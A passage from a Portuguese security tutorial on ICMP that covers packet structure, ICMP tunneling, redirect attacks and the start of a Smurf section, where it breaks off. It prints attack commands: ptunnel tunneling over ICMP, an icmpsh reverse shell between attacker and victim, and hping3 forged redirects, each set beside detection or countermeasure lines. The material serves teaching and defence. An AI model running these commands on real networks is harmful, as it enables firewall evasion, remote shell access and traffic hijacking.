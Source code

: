 #### Estrutura do Pacote ICMP

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     Type      |     Code      |          Checksum             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                             Data                              |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

#### Vulnerabilidades e Ataques

**1. ICMP Tunneling (Data Exfiltration)**

Esconder dados no campo Data do ICMP para bypass de firewalls.

```bash
# ptunnel - túnel TCP sobre ICMP
# Servidor
sudo ptunnel -x senha123

# Cliente
sudo ptunnel -p server_ip -lp 8000 -da target_ip -dp 22 -x senha123
ssh -p 8000 localhost

# icmpsh - shell reverso via ICMP
# Atacante
sudo python icmpsh_m.py 192.168.1.100 192.168.1.200

# Vítima
icmpsh.exe -t 192.168.1.100

# Detecção: pacotes ICMP com payload incomum
sudo tcpdump -i eth0 'icmp and (ip[2:2] > 100)' -X
```

**2. ICMP Redirect Attack**

Redirecionamento malicioso de tráfego.

```bash
# Enviar ICMP Redirect
sudo hping3 --icmp-redir-host 192.168.1.50 \
            -a 192.168.1.1 192.168.1.100

# Contramedida: desabilitar ICMP redirects
sudo sysctl -w net.ipv4.conf.all.accept_redirects=0
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
```

**3. Smurf Attack (ICMP Amplification)**

DDoS usando ICMP broadcast.
